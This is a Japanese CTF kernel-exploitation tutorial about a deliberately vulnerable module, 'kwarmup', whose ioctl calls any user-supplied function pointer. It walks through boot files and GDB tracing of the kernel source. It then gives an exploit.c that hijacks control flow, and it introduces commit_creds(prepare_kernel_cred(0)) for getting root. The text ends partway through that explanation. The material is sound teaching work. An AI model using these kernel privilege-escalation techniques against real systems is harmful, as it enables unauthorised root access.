

このページでは、実際に配布されたkernelファイルをもとにexploitを作ってリモートで動かすまでの一通りの流れを実践します。
また、debug symbolつきのkernelをGDBで動かすことで、効率的にソースコードリーディングを行う流れについても紹介します。

## Challenge

[[Distribution File]](https://r2.p3land.smallkirby.com/kwarmup-92fc2fe0a91f48b869564dc0c5e1cacb50ad05008fc3376e8b5c4ff2b692cd47.tar.gz)

[[vmlinux with debug symbols]](https://r2.p3land.smallkirby.com/vmlinux-kwarmup.tar.gz)

```sh
nc sc skb.pw 49404
```


p3landで扱うkernel challengeには、debug symbolつきの`vmlinux`を配布します。
後述しますが`vmlinux`はkernel image本体です。
通常のkernel imageはstripされており一切のシンボル情報を保持していません。
debug symbolつきの`vmlinux`を配布する最大の理由は、
**自分でbreakpoint/watchpointを貼ったりしてデバッグしながらソースコードを追って欲しい**からです。
この`vmlinux`を使うと以下のような操作が可能になります:

- シンボル名でbreakpointを貼る
- 命令に対応するソースコードのファイル名・行数・コードを表示する
- 構造体の中身を見る

ぜひ(というか必ず)自分でソースコードを眺めながら気になる処理を追ってください。
多分GDBを見ている時間よりもLinuxのソースツリーを見る時間のほうが長くなるはずですが、それで正しいです。


## ファイルの確認

<!-- TODO: pgd_t __pti_set_user_pgtbl(pgd_t *pgdp, pgd_t pgd)  -->

まずは[Challenge](#challenge)のファイルをダウンロードしてその中身を見てみます:

```sh
$ tree .
.
├── bzImage
├── kwarmup.c
├── kwarmup.ko
├── rootfs.cpio.gz
└── run.sh
```

### bzImage

`bzImage`はブート可能なLinux Kernel本体です。
このファイルは圧縮されており、実際のkernel image(とその他諸々のファイル)を含んだファイル群です。
その中身は [extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) というスクリプトを用いて展開することができます:

```sh
./extract-vmlinux ./bzImage > vmlinux
```

展開された`vmlinux`はkernelのELFファイルとなります。

```sh
$ file ./vmlinux
./vmlinux: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=66d5d30ee459e2ae8d11a78d8bdeda105a131e91, stripped
```

### rootfs.cpio.gz

`rootfs.cpio.gz`は`initramfs`で、kernelの起動時に[ramfs](https://elixir.bootlin.com/linux/latest/source/Documentation/filesystems/ramfs-rootfs-initramfs.rst)に展開されます。
この`initramfs`は`init`というファイルを持っており、kernelは起動後にこのファイルをPID=1として実行します。
実行後、通常のシステムでは実体のある(backed)ファイルシステムをマウントしますが、
配布したkernelではそのまま`initramfs`を使い続けます。
そのため、ファイルシステムに及ぼした変更は一切保存されません。
`init`の起動部分は`init_kernel@/init/main.c`関数で定義されています:

```c
static char *ramdisk_execute_command = "/init";

static int __ref kernel_init(void *unused) {
  ...
	if (ramdisk_execute_command) {
		ret = run_init_process(ramdisk_execute_command);
		if (!ret)
			return 0;
		pr_err("Failed to execute %s (error %d)\n",
		       ramdisk_execute_command, ret);
	}

  if (!try_to_run_init_process("/sbin/init") ||
    !try_to_run_init_process("/etc/init") ||
    !try_to_run_init_process("/bin/init") ||
    !try_to_run_init_process("/bin/sh"))
  return 0;
  ...
}
```

`/init`がない場合は`/sbin/init`や`/etc/init`等を探しに行くようですね。
ちなみに筆者の環境(Ubuntu 22.04 LTS)では`/sbin/init`になっていました(PPID 0は`no parent`です):

```sh
$ ps -f1
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 Jul08 ?        00:00:11 /sbin/init
```

[`cpio`フォーマット](https://en.wikipedia.org/wiki/Cpio)は圧縮形式の1つです。
以下のようにして展開することができます:

```sh
EX=extracted
mkdir -p $EX && cd $EX && gunzip -c ../rootfs.cpio.gz | cpio -id 2>/dev/null && cd -
```

また、圧縮は以下のようになります:

```sh
cd $EX && find ./ -print0 | cpio --owner root --null -o --format=newc >../rootfs.cpio && cd -
```

この`initramfs`の中に何が入っているのかはあとでもう少し詳しく見ていくことにします。

### kwarmup.ko / kwarmup.c

Challengeの対象となる脆弱なカーネルモジュール(LKM)です。
`initramfs`中の`/root`にも入っており、起動時に`init`によってロードされます。
どういうモジュールなのかは後述します。

### run.sh

QEMUを走らせるためのスクリプトです。
中身は以下のようになっています:

```sh
qemu-system-x86_64 \
  -kernel ./bzImage \
  -initrd ./rootfs.cpio.gz \
  -nographic \
  -monitor /dev/null \
  -cpu kvm64,-smep,-smap \
  -net nic,model=virtio \
  -net user \
  -append "console=ttyS0 nokaslr oops=panic panic=1 quiet nopti" \
  -no-reboot \
  -m 256M
```

各パラメタの細かい意味についてはQEMUの公式ドキュメントやhelpを参照してください。
`-kernel`と`-initrd`によって、利用するkernel imageとinitramfsを指定しています。
`-monitor`は[QEMU Monitor](https://qemu-project.gitlab.io/qemu/system/monitor.html)
の接続先を指定しています。
ここでは`/dev/null`にしているため使えませんが、割と便利なことも多いので使いたいときは
`-monitor stdio`(もしくは記述しない)にしておくと良いでしょう。
`-append`はkernelに起動オプションを渡す部分でとても大切ですが、今はスキップします。


さて、配布ファイルは以上です。
実際にQEMU上でkernelを起動してみましょう。

```sh
chmod +x ./run.sh
./run.sh
```


上の画像のようになっていればOKです。

## initramfsの中身と起動後シーケンス

この章では`/initramfs`の中身を見ていきます。

[rootfs.cpio.gz](#rootfscpiogz)の章でも書いたように、
kernelは`initramfs`をマウントすると`/init`を実行します:

```sh
/ $ cat ./init
#!/bin/sh
# devtmpfs does not get automounted for initramfs
/bin/mount -t devtmpfs devtmpfs /dev

...

exec /sbin/init "$@"
```

実際に見てみると色々書いてますが、
最後には`/sbin/init`を実行しています。
`/sbin/init`は環境によって`/sbin/systemd`等へのリンクになっています。
今回の場合は`/bin/busybox`へのシンボリックリンクとなっています。
`busybox`は`$0`(起動バイナリ名)によってその動作を変えますが、`init`の場合は以下のようになります:

```txt
/ $ busybox init --help
BusyBox v1.33.1 (2021-08-16 16:06:34 EDT) multi-call binary.

Usage: init

Init is the first process started during boot. It never exits.
It (re)spawns children according to /etc/inittab.
...
```

`/etc/inittab`を実行してくれるようです:

```inittab
::sysinit:/bin/mount -t proc proc /proc
::sysinit:/bin/mount -o remount,rw /
::sysinit:/bin/mkdir -p /dev/pts /dev/shm
::sysinit:/bin/mount -a
::sysinit:/bin/mkdir -p /run/lock/subsys
::sysinit:/sbin/swapon -a
null::sysinit:/bin/ln -sf /proc/self/fd /dev/fd
null::sysinit:/bin/ln -sf /proc/self/fd/0 /dev/stdin
null::sysinit:/bin/ln -sf /proc/self/fd/1 /dev/stdout
null::sysinit:/bin/ln -sf /proc/self/fd/2 /dev/stderr
::sysinit:/bin/hostname -F /etc/hostname
# now run any rc scripts
::sysinit:/etc/init.d/rcS

# Put a getty on the serial port
tty1::respawn:/sbin/getty -L  tty1 0 vt100 # QEMU graphical window
...
::shutdown:/etc/init.d/rcK
::shutdown:/sbin/swapoff -a
::shutdown:/bin/umount -a -r
```

`/etc/inittab`では、procfsをマウントしたり、rootをRWでリマウントしてくれたりといった細々としたことをしたあと、
`/etc/init.d/rcS`を実行しています。
`rcS`は通常のシェルスクリプトであり、`for i in /etc/init.d/S??* ;do`のようにして`/etc/init.d`以下のスクリプトを実行しています。

```sh
/ $ ls /etc/init.d
S01syslogd  S02sysctl   S40network  S999p3land  rcS
S02klogd    S20seedrng  S41dhcpcd   rcK
```

`syslogd`やネットワークの設定をしたあと、一番最後に`S999p3land`というスクリプトを実行します。
これが今回用意したスクリプトで、中身は以下のようになっています:

```sh
/ $ cat /etc/init.d/S999p3land
#!/bin/sh

mdev -s
stty -opost
echo 2 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict

chown -R root /root
chmod 700 /root/*

insmod /root/kwarmup.ko
chmod 0666 /dev/kwarmup

echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
cat /etc/logo.txt

setsid cttyhack setuidgid 9999 sh
#setsid cttyhack setuidgid 0 sh

umount /proc
poweroff -d 0 -f
```

重要なところだけ抜き出すと、`insmod`によって`/root/kwarmup.ko`をインストールしています。
これが先程紹介した脆弱なカーネルモジュールです。
その後、`setuidgid`でUID 9999として`/bin/sh`(busybox)を実行しています。

ここまでで起動後の初期設定のシーケンスが終わりです。
最後に以下のコマンドでカーネル等の環境情報を少しだけ調べておくと良いでしょう:

```sh
/ $ cat /proc/version
Linux version 5.15.0 (wataru@bel) (x86_64-buildroot-linux-musl-gcc.br_real (Buildroot 2023.05) 11.4.0, GNU ld (GNU Binutils) 2.38) #2 SMP Tue Jul 11 11:40:36 JST 2023
/ $ cat /proc/cmdline
console=ttyS0 nokaslr oops=panic panic=1 quiet nopti
/ $ cat /proc/cpuinfo
processor       : 0
vendor_id       : GenuineIntel
cpu family      : 15
...
```

`Linux version 5.15.0`であることが分かります。
また、諸々のサイズ縮小のためにglibcではなく[musl libc](https://www.musl-libc.org/)を利用してビルドしています。
`/proc/cmdline`はkernelのブートオプションで、`run.sh`で指定した値が表示されていることが分かります。
CPU情報もとても大事ですが、これは必要になった時に随時説明することにします。

## コードリーディングとGDBでのデバッグ



この章はタイトルの通り、GDBでのデバッグによりアシストしながらLinux Kernelのコードリーディングをしていきます。
かなり重要な章です！

ぜひ実際に手を動かしながら、コードリーディングの流れや感覚を掴んでください。


さて、本題です。脆弱なLKMである`kwarmup.ko`の中身を見ていきます。
とはいってもGhidraを使うのはめんどくさいのでソースコードを配布しています:

```c
#define KWARMUP_IOCTL_JMP 0x1337

static long kwarmup_ioctl(struct file *filp, unsigned int cmd,
                          unsigned long arg) {
  long ret = -EINVAL;

  switch (cmd) {
    case KWARMUP_IOCTL_JMP:
      void (*fn)(void) = (void *)arg;
      fn();
      ret = 0;
      break;
    default:
      break;
  }

  return ret;
}

static const struct file_operations kwarmup_fops = {
    .owner = THIS_MODULE,
    .unlocked_ioctl = kwarmup_ioctl,
};

static struct miscdevice kwarmup_device = {
    .minor = MISC_DYNAMIC_MINOR,
    .name = "kwarmup",
    .fops = &kwarmup_fops,
};

static int __init kwarmup_init(void) { return misc_register(&kwarmup_device); }
static void __exit kwarmup_exit(void) { misc_deregister(&kwarmup_device); }
module_init(kwarmup_init);
module_exit(kwarmup_exit);
```

本LKMは、[misc device](https://www.kernel.org/doc/html/v4.13/driver-api/misc_devices.html)
を登録して、そのファイルに対する`ioctl`の処理を登録しています。

`module_init`と`module_exit`で指定された関数はモジュールのロード・アンロード時にそれぞれ呼ばれます。
本LKMの場合には`kwarmup_init`が`init`関数として登録されています。
`kwarmup_init()`では`misc_register`によって`struct file_operations kwarmup_device`を登録しています。
この構造体が登録される`miscdevice`を表し、今回は`.name = "kwarmup"`のため`/dev/kwarmup`が登録されます:

```sh
/ $ ls -la /dev/kwarmup
crw-rw-rw-    1 root     root       10, 125 Jul 14 08:12 /dev/kwarmup
```

`.fops`は`/dev/kwarmup`に対するファイル操作の関数テーブルです。

良い機会なのでデバイスファイルに対するファイル操作のkernelにおける処理の流れを簡単に追ってみましょう。
x64において、syscall一覧は[/arch/x86/entry/syscall_64.c]()で定義されます:

```c
asmlinkage const sys_call_ptr_t sys_call_table[] = {
#include <asm/syscalls_64.h>
};
```

インクルードされるファイルはアーキとconfig等から自動生成される`/arch/x86/include/generated/asm/syscalls_64.h`です:

```c
__SYSCALL(0, sys_read)
__SYSCALL(1, sys_write)
__SYSCALL(2, sys_open)
...
__SYSCALL(450, sys_set_mempolicy_home_node)
```

その実体自体は`SYSCALL_DEFINE<N>`というマクロで定義されます。
`<N>`は引数の数です。
ここでは`open` sycallの実装を追うことにします。
`open`の定義は[/fs/open.c]()で定義されています:

```c
SYSCALL_DEFINE3(open, const char __user *, filename, int, flags, umode_t, mode)
{
	if (force_o_largefile())
		flags |= O_LARGEFILE;
	return do_sys_open(AT_FDCWD, filename, flags, mode);
}
```

ここからはさらに処理が分岐していきます。
途中は省略することにして、なんやかんや`do_open()`([/fs/namei.c]())において`vfs_open()`([/fs/open.c]())が呼ばれます。
ここまで来ると、openするファイルに応じた関数ポインタ等も出てくるため、きっとソースコードの上だけで処理を追うのはしんどくなってくるはずです。
そんなときには、**GDBで実際に手を動かしながら処理を追っていきましょう**。

まずは添付のdebug symbol付きの`vmlinux`を展開してください:

```sh
tar xvf ./vmlinux-kwarmup.tar.gz
```

続いて、GDBに`vmlinux`を食わせます:

```sh
$ gef ./vmlinux
Loading GEF...
GEF for linux ready, type `gef' to start, `gef config' to configure
214 commands loaded for GDB 12.1 using Python engine 3.10
[+] Configuration from '/home/wataru/.gef.rc' restored
Reading symbols from ./vmlinux...
```

`Reading symbols from ./vmlinux...`と出ていればOKです。

続いて、QEMU上で動いているGDB serverに接続します:

```sh
gef> target remote:1234
```

今回処理を追いたいのは`vfs_open()`であるため、ここにハードウェアブレイクを貼ります:

```sh
gef> hb *vfs_open
```


GDBでは`break(b)`と`hb`の2種類のbreakpointがあります。
(筆者の理解が正しければ、)通常のbreakpointは、
breakしたい命令を`int 3`命令で上書きすることで実現されています。
対して、hardware assisted breakpointでは[デバッグレジスタ](https://en.wikipedia.org/wiki/X86_debug_register)という特殊な用途なレジスタを使って、
IPが該当アドレスに到達した時にCPU的にbreakするようになっています。
何故かは知りませんが、筆者は過去に通常のbreakpointがkernel debugでうまく効かなかった経験があるため、
基本的にはhardware breakpointを使っています。
(レジスタである以上、おそらく仕掛けられるbreakpointには制限があるはずです)


breakpointを貼ったら`c`で実行を再開します。
続いてシェルに戻り、`/dev/kwarmup`に対して`open`を実行します:

```sh
$ head -n 1 /dev/kwarmup
```

するとGDB側でbreakpointがヒットします。
`bt`でバックトレースを見てみましょう:

```txt
gef> bt
#0  vfs_open (path=path@entry=0xffffc9000042bdb0, file=file@entry=0xffff888003161f00) at fs/open.c:944
#1  0xffffffff8115d2cf in do_open (op=0xffffc9000042becc, file=0xffff888003161f00, nd=0xffffc9000042bdb0) at fs/namei.c:3428
#2  path_openat (nd=nd@entry=0xffffc9000042bdb0, op=op@entry=0xffffc9000042becc, flags=flags@entry=0x41) at fs/namei.c:3561
#3  0xffffffff8115e1ed in do_filp_open (dfd=dfd@entry=0xffffff9c, pathname=pathname@entry=0xffff8880024d0000, op=op@entry=0xffffc9000042becc) at fs/namei.c:3588
#4  0xffffffff8114abd6 in do_sys_openat2 (dfd=0xffffff9c, filename=<optimized out>, how=how@entry=0xffffc9000042bf10) at fs/open.c:1200
#5  0xffffffff8114afe0 in do_sys_open (mode=<optimized out>, flags=<optimized out>, filename=<optimized out>, dfd=<optimized out>) at fs/open.c:1216
#6  __do_sys_openat (mode=<optimized out>, flags=<optimized out>, filename=<optimized out>, dfd=<optimized out>) at fs/open.c:1232
#7  __se_sys_openat (mode=<optimized out>, flags=<optimized out>, filename=<optimized out>, dfd=<optimized out>) at fs/open.c:1227
#8  __x64_sys_openat (regs=<optimized out>) at fs/open.c:1227
#9  0xffffffff8165b4a3 in do_syscall_x64 (nr=<optimized out>, regs=0xffffc9000042bf58) at arch/x86/entry/common.c:50
#10 do_syscall_64 (regs=0xffffc9000042bf58, nr=<optimized out>) at arch/x86/entry/common.c:80
#11 0xffffffff8180007c in entry_SYSCALL_64 () at arch/x86/entry/entry_64.S:113
...
```

これで`vfs_open()`が呼ばれるまでのコールフローが全部分かります。
おまけに引数の値もだいたい分かります。
とても素晴らしいですね。
`<optimized out>`となっているのは諸々の最適化のせいで読み取れなかった値です、諦めましょう。

さて、この`vfs_open()`が本当に`/dev/kwarmup`をopenしているのか確認してみましょう:

```txt
gef> frame 2
#2  path_openat (nd=nd@entry=0xffffc9000042bdb0, op=op@entry=0xffffc9000042becc, flags=flags@entry=0x41) at fs/namei.c:3561
3561                            error = do_open(nd, file, op);
gef> p nd->last
$5 = {
  {
    {
      hash = 0xe2a9d7a0,
      len = 0xc
    },
    hash_len = 0xce2a9d7a0
  },
  name = 0xffff8880024d0021 ".ash_history"
}
```

どうやら`.ash_history`をopenしているようです、関係ないやつですね。
ちなみに`ash`というのはシェルの一種で、busyboxの`sh`の実装になります。

目的のファイルをopenするまで、`c`で進めていきましょう。
おそらく2回ほどで目的のファイルがopenされると思います:

```txt
gef> frame 2
#2  path_openat (nd=nd@entry=0xffffc90000443db0, op=op@entry=0xffffc90000443ecc, flags=flags@entry=0x41) at fs/namei.c:3561
3561                            error = do_open(nd, file, op);
gef> p nd->last
$7 = {
  {
    {
      hash = 0x6f755299,
      len = 0x7
    },
    hash_len = 0x76f755299
  },
  name = 0xffff8880024d0025 "kwarmup"
}
```

さて、このあと`vfs_open()`は`do_dentry_open()`を呼び出します。

```c
static int do_dentry_open(struct file *f,
			  struct inode *inode,
			  int (*open)(struct inode *, struct file *))
{
  ...
  	f->f_op = fops_get(inode->i_fop);
  ...
	if (!open)
		open = f->f_op->open;
	if (open) {
		error = open(inode, f);
		if (error)
			goto cleanup_all;
	}
  ...
}
```

`do_dentry_open()`の第3引数は`open`関数ポインタですが、GDBを見る限りではこの値はNULLですね。
そのため、`open = f->f_op->open`で関数ポインタが代入され、`open(inode, f)`と呼ばれるはずです。
ここで、`fops_get()`が呼ばれる直前までGDBまで進んで、`inode->i_fop`を見てみましょう:

```txt
gef> p inode->i_fop
$16 = (const struct file_operations *) 0xffffffff81c10b60 <def_chr_fops>
```

どうやらこの`inode`には`def_chr_fops`が入っていたようです。
きっとデバイスファイルの作成時に、デフォルトのfopsとして割り当てられたのでしょう。
というわけで、`open`は`def_chr_fops->open`となります。

```c
const struct file_operations def_chr_fops = {
	.open = chrdev_open,
	.llseek = noop_llseek,
};
```

これは`chrdev_open`([/fs/char_dev.c]())を指しているようですね:

```c
static int chrdev_open(struct inode *inode, struct file *filp)
{
	const struct file_operations *fops;
	struct cdev *p;
	struct cdev *new = NULL;

	p = inode->i_cdev;
	if (!p) {
		kobj = kobj_lookup(cdev_map, inode->i_rdev, &idx);
		new = container_of(kobj, struct cdev, kobj);
		p = inode->i_cdev;
		if (!p) {
			inode->i_cdev = p = new;
      ...
		} else if (!cdev_get(p))
			ret = -ENXIO;
	} else if (!cdev_get(p))
		ret = -ENXIO;
    ...

	ret = -ENXIO;
	fops = fops_get(p->ops);
	if (!fops)
		goto out_cdev_put;

	replace_fops(filp, fops);
	if (filp->f_op->open) {
		ret = filp->f_op->open(inode, filp);
		if (ret)
			goto out_cdev_put;
	}
  ...
}
```

この関数ではまず、`inode->i_cdev`がNULLかどうかチェックしています。
GDBでみるとこのフィールドには何も入っていないため`if (!p)`ブロックに入ります。
ここで、`kobj_lookup()`によって`cdev_map`の中から`inode->i_rdev`に対応する`kobj`を探しています。
`kobject`はここでは詳細に立ち入りませんが、`structure`に埋め込まれて利用されることで構造体に対する汎用的な操作を可能にするものと考えておいてください。
詳しくは[Documentation/kobject.txt](https://docs.kernel.org/core-api/kobject.html)を参照してください。
とりあえずこのlookup後まで実行を進めて`inode->i_cdev`を見てみると以下のようになります:

```txt
gef> p *new
$19 = {
  kobj = {
    name = 0xffffffff81d5c01a "misc",
    entry = {
      next = 0xffff888002530608,
      prev = 0xffff888002530608
    },
    parent = 0x0 <fixed_percpu_data>,
    kset = 0x0 <fixed_percpu_data>,
    ktype = 0xffffffff81eafec0 <ktype_cdev_dynamic>,
    sd = 0x0 <fixed_percpu_data>,
    kref = {
      refcount = {
        refs = {
          counter = 0x2
        }
      }
    },
    state_initialized = 0x1,
    state_in_sysfs = 0x0,
    state_add_uevent_sent = 0x0,
    state_remove_uevent_sent = 0x0,
    uevent_suppress = 0x0
  },
  owner = 0x0 <fixed_percpu_data>,
  ops = 0xffffffff81c43e20 <misc_fops>,
  list = {
    next = 0xffff888002530650,
    prev = 0xffff888002530650
  },
  dev = 0xa00000,
  count = 0x100
}
```

なるほど、`misc_fops`がfopsとして登録されています。
そのため、`replace_fops`によって`filp->f_op`が`misc_fops`に置き換わり、
`filp->f_op->open(inode, filp)`では`misc_fops`が呼ばれることになります。

随分と段階を踏んでいてややこしいですが、そもそもVFSというのが諸々のファイルの差異を吸収して
統一APIを提供するためのものなので仕方がないですね。
`misc_fops->open`は`misc_open`([/drivers/char/misc.c]())です:

```c
static int misc_open(struct inode *inode, struct file *file)
{
  struct miscdevice *c = NULL, *iter;
  ...
  	list_for_each_entry(iter, &misc_list, list) {
		if (iter->minor != minor)
			continue;
		c = iter;
		new_fops = fops_get(iter->fops);
		break;
	}
  ...
  file->private_data = c;
	err = 0;
	replace_fops(file, new_fops);
	if (file->f_op->open)
		err = file->f_op->open(inode, file);
  ...
}
```

また同じような関数ですね。
最初の`for`ループでは`misc_list`を辿って目的の`struct miscdevice`を探しています。
ここで、`for`を抜けた後の`c`を見てみましょう:

```txt
gef> p *c
$25 = {
  minor = 0x7d,
  name = 0xffffffffc0001054 "kwarmup",
  fops = 0xffffffffc0001060,
  list = {
    next = 0xffffffff81e38678 <cpu_latency_qos_miscdev+24>,
    prev = 0xffffffff81ec0ce0 <misc_list>
  },
  parent = 0x0 <fixed_percpu_data>,
  this_device = 0xffff8880031c2000,
  groups = 0x0 <fixed_percpu_data>,
  nodename = 0x0 <fixed_percpu_data>,
  mode = 0x0
}
```

これは、ソースコード(`kwarmup.c`)で見たやつですね！
ついにここまでたどり着いたようです。
`replace_fops`によって`file->f_op`が`kwarmup_fops`に置き換わり、
以降はこの`file`へのアクセスはこの`f_op`を使って行うことができます。
ちなみに、`file.private_data`には登録した`struct miscdevice`が入ります。
今は気にしないでもらって大丈夫ですが、のちのち使う可能性があるかもしれないです。
あとは登録したmiscdeviceの`fops`に登録されている`open`が呼ばれるだけです。
しかし、本LKMでは`open`を登録していないので、何も専用の処理はされません。
ただしそれでもユーザにエラーなく`fd`は返されます。

さて、ここまで`open`システムコールが`miscdevice`をopenするまでの流れを追うことができました。

## `ioctl`と脆弱性

さて、LKMに話を戻しましょう。
長くなってしまったのでコードを再掲します:

```c
static long kwarmup_ioctl(struct file *filp, unsigned int cmd,
                          unsigned long arg) {
  long ret = -EINVAL;

  switch (cmd) {
    case KWARMUP_IOCTL_JMP:
      void (*fn)(void) = (void *)arg;
      fn();
      ret = 0;
      break;
    default:
      break;
  }

  return ret;
}
```

`ioctl`ではファイルに対する諸々の操作をコマンドを指定することで実行できます。
`ioctl`は、以下の引数を取ります:

- `filp`: `open`で返された`struct file`へのポインタ。userlandからは`file`に紐づく`fd`を渡す。
- `cmd`: コマンドID。
- `arg`: 任意のuserlandデータ。便宜上`ulong`になっている。

今回はコマンドはひとつだけ定義されており、そのコマンドでは`arg`として渡された値を関数ポインタと解釈して呼び出しています。
脆弱というか、意味のわからないコードですが、今回は最初なのでこれで良しとしましょう。
まとめると、この`ioctl`を呼び出すことで任意の関数を呼び出すことができます。


## exploitを書く

kernel challengeにおけるexploitはC言語で書くことが多いです。
手元に`exploit.c`のようなファイルを用意して、以下のようなコードを書いてみましょう:

```c
/*********** commands ******************/
#define DEV_PATH "/dev/kwarmup"
#define KWARMUP_IOCTL_JMP 0x1337

int main(int argc, char *argv[]) {
  int fd;
  puts("[+] Opening device...");
  if ((fd = open(DEV_PATH, O_RDWR)) < 0) {
    perror("[-] open");
    exit(EXIT_FAILURE);
  }

  printf("[+] Jumping to %p\n", 0xDEADBEEF);
  ioctl(fd, KWARMUP_IOCTL_JMP, 0xDEADBEEF);

  puts("[ ] END of life...");
  sleep(999999);
}
```

やっていることはシンプルで、`/dev/kwarmup`を`open`して`ioctl`で`0xDEADBEEF`を渡しています。
`kwarmup_ioctl`の実装によると、これで`0xDEADBEEF`を関数とみなして呼び出すことになるでしょう。

exploitを実行するには、以下の手順を踏みます:

```sh
gcc exploit.c -o exploit --static
cp ./exploit $EX # EXはinitramfsを展開したディレクトリ
cd $EX && find ./ -print0 | cpio --owner root --null -o --format=newc >../rootfs.cpio && cd -
gzip ./rootfs.cpio
```

`exploit`を`rootfs.cpio.gz`の中に入れることができたら、再び`run.sh`を用いてkernelを起動します。
その後、`/exploit`を実行してみましょう:

```sh
/ $ ./exploit
[+] Opening device...
[+] Jumping to 0xdeadbeef
BUG: unable to handle page fault for address: 00000000deadbeef
#PF: supervisor instruction fetch in kernel mode
#PF: error_code(0x0010) - not-present page
PGD 32b4067 P4D 32b4067 PUD 0
Oops: 0010 [#1] SMP NOPTI
CPU: 0 PID: 152 Comm: exploit Tainted: G           O      5.15.0 #2
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
RIP: 0010:0xdeadbeef
Code: Unable to access opcode bytes at RIP 0xdeadbec5.
RSP: 0018:ffffc90000463e98 EFLAGS: 00000246
RAX: ffffffffc0000000 RBX: 0000000000000003 RCX: ffff8880024845a8
RDX: 00000000deadbeef RSI: 0000000000001337 RDI: ffff888003162300
RBP: ffffc90000463ea0 R08: 0000000000000003 R09: 0000000000000000
R10: ffff88800328c5e8 R11: 0000000000000000 R12: ffff888003162300
R13: 00000000deadbeef R14: ffff888003162300 R15: 0000000000001337
FS:  00000000004ee3c0(0000) GS:ffff88800f600000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00000000deadbeef CR3: 0000000003296000 CR4: 00000000000006f0
Call Trace:
 ? kwarmup_ioctl+0x11/0x1d [kwarmup]
 __x64_sys_ioctl+0x3e6/0x910
 ? handle_edge_irq+0x82/0x220
 ? exit_to_user_mode_prepare+0x2f/0x140
 do_syscall_64+0x43/0x90
 entry_SYSCALL_64_after_hwframe+0x44/0xae
RIP: 0033:0x455f5f
Code: 00 48 89 44 24 18 31 c0 48 8d 44 24 60 c7 04 24 10 00 00 00 48 89 44 24 08 48 8d 44 24 20 48 89 44 24 10 b8 10 00 00 00 0f 05 <41> 80
RSP: 002b:00007ffea69447b0 EFLAGS: 00000246 ORIG_RAX: 0000000000000010
RAX: ffffffffffffffda RBX: 00007ffea6944a28 RCX: 0000000000455f5f
RDX: 00000000deadbeef RSI: 0000000000001337 RDI: 0000000000000003
RBP: 00007ffea6944830 R08: 0000000000000000 R09: 0000000000000000
R10: 0000000000000010 R11: 0000000000000246 R12: 0000000000000001
R13: 00007ffea6944a18 R14: 00000000004e1790 R15: 0000000000000001
Modules linked in: kwarmup(O)
CR2: 00000000deadbeef
---[ end trace 8cc92b35e878d37c ]---
RIP: 0010:0xdeadbeef
Code: Unable to access opcode bytes at RIP 0xdeadbec5.
RSP: 0018:ffffc90000463e98 EFLAGS: 00000246
RAX: ffffffffc0000000 RBX: 0000000000000003 RCX: ffff8880024845a8
RDX: 00000000deadbeef RSI: 0000000000001337 RDI: ffff888003162300
RBP: ffffc90000463ea0 R08: 0000000000000003 R09: 0000000000000000
R10: ffff88800328c5e8 R11: 0000000000000000 R12: ffff888003162300
R13: 00000000deadbeef R14: ffff888003162300 R15: 0000000000001337
FS:  00000000004ee3c0(0000) GS:ffff88800f600000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00000000deadbeef CR3: 0000000003296000 CR4: 00000000000006f0
Kernel panic - not syncing: Fatal exception
Kernel Offset: disabled
Rebooting in 1 seconds..
```

この出力のことを`Kernel Oops`と言ったりします。
Oopsではエラーの原因や、その時の各種レジスタの値やbacktrace等が出力されます。
今回の原因は`unable to handle page fault for address: 00000000deadbeef`です。
確かに`0xDEADBEEF`に制御を飛ばせたようですね！
これでRIPが取れたことになります。


せっかくコードリーディングの仕方を書いたので、
上記のOopsメッセージがどの関数を辿ってソースコード中のどこで出力されているのかを追ってみてください。


## 魔法の言葉 ~ `commit_creds(prepare_kernel_cred(0))` ~

userland exploitにおける目標は、ユーザシェルを取ることでした。
対して、kernel exploitにおける基本的な目標は、**rootを取る**ことです。
これを実現する方法は数多ありますが、最も基礎的なものとして`commit_creds(prepare_kernel_cred(0))`を使っていきましょう。

そもそも、rootを取るとはどういうことでしょうか。
言い換えると、プロセスのUIDはどのようにして定義されているのでしょうか。

Linuxにおいて、各プロセスは`struct task_struct`([/include/linux/sched.h]())という構造体で表現されます。
この`task_struct`は、`cred`という`struct cred`([/include/linux/cred.h]())型のフィールドを保持します。
この`cred`がプロセスのUIDを表現する構造体です:

```c
struct cred {
  ...
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	unsigned	securebits;	/* SUID-less security management */
	kernel_cap_t	cap_inheritable; /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	/* caps we're permitted */
  struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
  ...
}
```

